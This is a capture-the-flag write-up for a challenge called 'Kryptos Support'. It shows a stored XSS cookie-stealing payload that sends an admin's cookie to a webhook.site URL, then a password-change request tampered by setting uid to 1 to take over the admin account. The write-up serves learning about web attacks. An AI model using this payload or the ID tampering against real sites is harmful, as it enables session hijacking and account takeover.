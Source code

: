 # Kryptos Support

So we are greeted with a website with some input box, we send a message and see that admin will review ticket:

<figure><img src="../../../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So maybe some sort of XSS where we have to steal cookie?

<figure><img src="../../../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We craft a quick cookie stealer:

```
<script>document.location='https://webhook.site/888b441e-ed74-4bba-8c87-e40f690d376a?c='+document.cookie</script>
```

And get a hit in our webhook:

<figure><img src="../../../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So we capture a session cookie

{% hint style="warning" %}
The payload broke the chal and breaks the redirection lol be careful
{% endhint %}

We see the redirection to /tickets

<figure><img src="../../../../.gitbook/assets/image (12) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And then we spot /settings:

<figure><img src="../../../../.gitbook/assets/image (13) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (14) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So we change the password and see the odd request:

<figure><img src="../../../../.gitbook/assets/image (15) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And from there it is very easy, we change uid to 1 to change the password of the admin and it works, so we can go back to /login and get the flag:

<figure><img src="../../../../.gitbook/assets/image (16) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
